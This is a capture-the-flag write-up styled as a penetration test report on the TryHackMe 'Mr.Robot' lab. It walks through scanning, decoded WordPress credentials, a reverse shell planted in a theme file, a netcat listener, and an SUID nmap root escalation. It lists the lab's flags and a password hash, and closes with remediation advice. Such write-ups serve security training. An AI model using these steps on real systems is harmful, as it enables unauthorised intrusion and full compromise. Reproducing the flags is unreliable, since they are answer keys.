# Mr.Robot --Penetration Test Report


---

## Executive Summary

**Engagement:** Authorized walkthrough / penetration test of the TryHackMe "Mr.Robot" machine
**Target:** `10.10.199.99`
**Assessment Date:** 2025-11-01
**Author:** Omar Mazen

This document is a factual, evidence-backed report based on the terminal transcript created during the lab. The assessment demonstrates full compromise from low-privileged access to root via a local privilege escalation vector. Immediate remediation is recommended.

**High-level findings**

* Initial access: reverse shell as `daemon`.
* Credential discovery: `password.raw-md5` (MD5 hash for `robot`) found in `/home/robot`.
* User access: SSH access to `robot` and retrieval of `key-2-of-3.txt`.
* Privilege escalation: achieved `root` via `nmap --interactive`.
* Flags recovered:
  * `key-1-of-3`: `073403c8a58a1f80d943455fb30724b9`
  * `key-2-of-3`: `822c73956184f694993bede3eb39f959`
  * `key-3-of-3`: `04787ddef27c3dee1ee161b21670b4e4`

**Risk rating:** HIGH — full system compromise demonstrated.

> **Warning:** This work was performed in a controlled, authorized lab environment (TryHackMe). Do not reuse these techniques against systems you do not own or have explicit permission to test.

---

## Table of Contents

1. Scope & Rules of Engagement
2. Evidence: Command outputs
3. Tools used
4. Reconnaissance & enumeration
5. Web Enumeration & Initial Access
6. Initial access (reverse shell)
7. Local discovery & credentials
8. Gaining `robot` user
9. Privilege escalation to root (detailed)
10. Reproducible commands (lab only)
11. Findings, root cause & risk analysis
12. Remediation recommendations
13. Appendix — artifacts & flags

---

## 1. Scope & Rules of Engagement


* **Target IP:** `10.10.199.99`
* **Environment:** TryHackMe training environment — authorized testing only.
* **Allowed actions:** Scanning, enumeration, exploitation limited to this lab.
* **Disallowed actions:** Attacks on infrastructure outside the lab, persistent backdoors outside lab scope.

---

## 2. Evidence: Command outputs (from transcript)



**Nmap (initial):**

```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ nmap 10.10.199.99 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-11-01 01:50 EDT
Nmap scan report for 10.10.199.99 (10.10.199.99)
Host is up (0.093s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
```



**Gobuster (directory enumeration):**

```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ gobuster -u 10.10.199.99 -w /usr/share/wordlists/dirb/common.txt dir
...
[+] Url:                     http://10.10.199.99
[+] Method:                  GET
[+] Threads:                  10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
Starting gobuster in directory enumeration mode
...
/.hta                 (Status: 403)
/.htaccess            (Status: 403)
/.htpasswd            (Status: 403)
/0                    (Status: 301) [--> http://10.10.199.99/0/]
/admin                (Status: 301) [--> http://10.10.199.99/admin/]
/blog                 (Status: 301) [--> http://10.10.199.99/blog/]
/dashboard            (Status: 302) [--> http://10.10.199.99/wp-admin/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [--> http://10.10.199.99/]
```




**Netcat listener & reverse shell (snippet):**

```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ nc -lvnp 2222
listening on [any] 2222 ...
connect to [10.23.168.139] from (UNKNOWN) [10.10.199.99] 54086
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@ip-10-10-199-99:/$ whoami
daemon
```


**Discovery in `/home/robot`:**

```text
daemon@ip-10-10-199-99:/home/robot$ ls
key-2-of-3.txt  password.raw-md5

daemon@ip-10-10-199-99:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```



**SSH to `robot` & reading key-2:**

```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ sudo ssh robot@10.10.199.99
[...]
$ ls
key-2-of-3.txt  password.raw-md5
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```




**SUID binaries and nmap interactive escalation:**

```text
$ find / -perm -u=s 2>/dev/null
[...]
/usr/local/bin/nmap

$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
root@ip-10-10-199-99:/home/ubuntu# whoami
root
root@ip-10-10-199-99:/root# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

---

## 3. Tools used


* `nmap` (scanning, interactive used during escalation)
* `gobuster` (web directory enumeration)
* `nc` (reverse shell listener)
* `python3` (for `pty.spawn`)
* `ssh`, `ls`, `cat`, `find`, `sudo -l`, etc.

---


## 4. Reconnaissance & Enumeration

Summary:

* Ports open: 22 (SSH), 80 (HTTP), 443 (HTTPS).
* Web endpoints discovered (examples): `/admin`, `/blog`, `/dashboard` -> `/wp-admin/`.
* Evidence suggests a WordPress site and potential admin interfaces.

---


## 5. Web Enumeration & Initial Access


During directory enumeration and while Gobuster was running, I manually inspected several files and found elements that led directly to initial access. Below is a detailed step-by-step account with an image for each step.



### 5.1 `robots.txt`


I opened `robots.txt` manually and found two important entries:

* The first flag (the first key) was contained in the file.
* A reference to a custom wordlist named `fsocity.dic`, a common artifact in Mr.Robot-style challenges that hints at likely username/password candidates or directories.

### 5.2 Discovery of `/license` and extracting encoded data







While Gobuster continued enumerating, a `/license` page was discovered. Inspecting the page source revealed a **Base64-encoded string** hidden in an HTML comment. After decoding it, the string revealed WordPress credentials:



```
User: Elliot
Password: ER28-0652
```


### 5.3 Using WordPress credentials & editing Theme Editor



I used the extracted credentials to log into the WordPress admin panel. From the admin dashboard I navigated to the 



**Theme Editor** and modified `404.php` to include a PHP reverse shell payload. Saving that change meant a request that triggered the 404 page would execute the shell.

### 5.4 Catching the reverse shell


On the attacker machine I ran a netcat listener on port **2222** to capture the incoming reverse shell:

```bash
nc -lvnp 2222
```
The reverse shell connected, and I upgraded the session to a TTY using:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gave an initial low-privileged shell as the `daemon` user.

---

## 6. Initial access (reverse shell)


* Reverse shell connection received on attacker's listener (`nc -lvnp 2222`).
* Shell upgraded with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
* Acquired `daemon` context and discovered files in `/home/robot`.

---



## 7. Local discovery & credential handling


* `password.raw-md5` content: `robot:c3fcd3d76192e4007dfb496cca67e13b` (MD5).

  * MD5 is weak and trivial to crack with common wordlists.
* `key-2-of-3.txt` was initially permission-restricted when connected as `daemon`, but later read as `robot` after obtaining user access.

---





## 8. Gaining `robot` user


* SSH into the box as `robot` using obtained credentials:

```bash
ssh robot@10.10.199.99
# password used during the exercise
```

* Read `/home/robot/key-2-of-3.txt`:

```
822c73956184f694993bede3eb39f959
```

`robot` had no sudo privileges (`sudo -l` returned user may not run sudo).

---




## 9. Privilege escalation (root)


* Found SUID binaries with `find / -perm -u=s 2>/dev/null`, notably `/usr/local/bin/nmap`.
* Used `nmap --interactive` and invoked `!sh` from its interactive prompt to spawn a root shell:

```bash
nmap --interactive
# at nmap prompt: !sh
# whoami -> root
cat /root/key-3-of-3.txt
# 04787ddef27c3dee1ee161b21670b4e4
```

**Root cause:** The interactive functionality of a privileged binary (nmap) allowed spawning a shell as root. This is a configuration/installation security issue.

---


## 10. Reproducible commands (lab-only)


> Execute only in authorized lab environments.

```bash
# Port scan
nmap  10.10.199.99

# Directory enumeration
gobuster dir -u http://10.10.199.99 -w /usr/share/wordlists/dirb/common.txt 

# Start listener for reverse shell
nc -lvnp 2222

# Upgrade received shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

# Check user home
cd /home/robot
ls -la
cat password

# Check SUID binaries
find / -perm -u=s 2>/dev/null

# Interactive nmap (lab only)
nmap --interactive
# at prompt: !sh
```

---


## 11. Findings, root cause & risk analysis


**Findings**

* Misconfigured/elevated interactive utility: `nmap` allowed a root shell.
* Weak credential handling: MD5 hash stored in a user home.
* Web-facing admin endpoints increase the attack surface.

**Impact**

* Full system compromise (user -> root). Confidentiality, integrity, and availability risk.

**Likelihood**

* High in environments with legacy or incorrectly installed tools and poor credential hygiene.

---

## 12. Remediation recommendations

1. **Fix privileged binaries**

   * Remove setuid from nonessential binaries. Example:

     ```bash
     chmod u-s /usr/local/bin/nmap
     ```
   * Update `nmap` to a secure build and avoid running interactive utilities with elevated privileges.

2. **Credential hygiene**

   * Do not store password hashes or plaintext in user home directories.
   * Use modern password hashing (bcrypt/argon2) and secrets management.

3. **Harden web applications**

   * Update WordPress core/plugins/themes.
   * Restrict admin interfaces (IP allowlist, MFA, WAF).

4. **Least privilege**

   * Review sudoers and user privileges; apply the principle of least privilege.

5. **Monitoring & logging**

   * Alert on unexpected interactive shells and changes to SUID binaries.
   * File integrity monitoring for sensitive files.

---

## 13. Appendix — artifacts & flags

**Flags recovered (from transcript)**
* `key-1-of-3` — `https://10.10.199.99/key-1-of-3.txt` → `073403c8a58a1f80d943455fb30724b9`
* `key-2-of-3` — `/home/robot/key-2-of-3.txt` → `822c73956184f694993bede3eb39f959`
* `key-3-of-3` — `/root/key-3-of-3.txt` → `04787ddef27c3dee1ee161b21670b4e4`

**Hashes**

* `password.raw-md5` → `robot:c3fcd3d76192e4007dfb496cca67e13b`

---


## Contact & Attribution

**Author:** Omar Mazen
**GitHub:** `https://github.com/0marmazen`
**Date:** 2025-11-01

---

